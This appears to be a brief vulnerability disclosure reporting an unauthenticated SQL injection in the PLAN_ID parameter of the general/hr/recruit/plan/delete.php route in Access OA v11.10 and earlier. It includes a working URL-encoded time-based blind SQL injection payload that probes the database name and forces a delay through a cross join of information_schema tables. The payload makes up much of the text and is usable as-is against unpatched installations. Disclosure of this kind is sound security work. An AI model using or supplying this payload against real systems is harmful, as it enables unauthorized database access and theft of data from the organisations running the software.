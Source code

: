 Unauthorized SQL injection vulnerability exists in Access OA

version:v11.10 or earlier

Routing: general/hr/recruit/plan/delete. PHP

The injected parameter $PLAN_ID exists

poc
```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

The page has obvious delay, indicating that SQL injection vulnerability exists
![WPS图片(1)](https://github.com/husterdjx/cve/assets/80690447/5fd73294-da88-42a8-ad7b-57c9b79c1679)

